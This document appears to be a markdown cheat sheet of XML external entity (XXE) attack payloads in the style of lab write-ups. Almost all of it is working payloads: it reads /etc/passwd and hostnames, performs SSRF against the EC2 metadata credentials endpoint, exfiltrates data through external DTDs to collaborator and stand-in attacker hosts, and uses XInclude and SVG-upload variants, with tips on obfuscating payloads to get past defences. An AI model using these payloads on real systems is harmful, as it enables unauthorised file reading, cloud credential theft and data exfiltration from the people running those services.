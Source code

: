 # XXE Payloads

### External source for learning and exploiting
https://youtu.be/gjm6VHZa_8s?si=kYbaFjUQXSRGJ5HZ
## Note

Keep in mind that XML is just a data transfer format. Make sure you also test any XML-based functionality for other vulnerabilities like XSS and SQL injection. You may need to encode your payload using XML escape sequences to avoid breaking the syntax, but you may also be able to use this to obfuscate your attack in order to bypass weak defences.

### Normal Method
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  >> For retrieving server files.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>  >> For SSRF attack.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://zhkjg0n2ikpienyuf43fiyvuelkc82wr.oastify.com"> ]>  >> For Blind xxe attack.
&xxe;
```
Note: http://169.254.169.254/latest/meta-data/iam/security-credentials/admin endpoint EC2 to retrieve info for SSRF.
#### Example:
Before Injection:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
After Injection:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use ```XML parameter entities instead```.
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://x0yhzy601i8gxlhsy2md1wesxj3ar2fr.oastify.com"> %xxe; ]>  >> For Blind xxe via XML parameter entities.
```
#### Example:
Blind Injection via ```XML parameter entities```.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://attacker-doamin.com/?x=/etc/passwd"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.
### Exploiting blind XXE via external DTD server
Host this payloads with burp collaborator in external DTD server.<br>
To exfiltrate data in collaborator server.
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://uljekvrxmftdii2pjz7amtzpigo7c50u.oastify.com/?x=%file;'>">
%eval;
%exfil;
```
To retrieve data via error messages.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Now paste the external DTD server link in vulnerable xml field.
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://external.dtd.server"> %xxe; ]>
```
### Exploiting XXE to retrieve data by repurposing a local DTD against known Operating System
Locate an existing DTD file to repurpose. For example, Linux systems using the GNOME desktop environment often have a DTD file at /usr/share/yelp/dtd/docbookx.dtd. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing. Try bruteforcing with common dtd file names via burp intruder to identify local dtd file. 
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
Now use this payload with identified dtd.
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
### Exploiting XInclude to retrieve files
Some applications receive client-submitted data via parameter value(id=1) without xml body, embed it on the server-side into an XML document, and then parse the document. In this situation try this method. Use &xxe; (encode & to %26) to parameter value(id=&xxe;) to identify xxe via error message. Then place this payload in value to retrieve file.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### Exploiting XXE via image file upload
Change: 
    filename="test.png" to filename="attack.svg" >>
    Content-Type: image/png to Content-Type: image/svg+xml >>
Then put this payload in pixel data.
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
Note: The ```svg``` Image format uses XML
### Exploiting XXE via modified Content-Type
Most POST requests use a default content type that is generated by HTML forms, such as application/x-www-form-urlencoded. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format. 
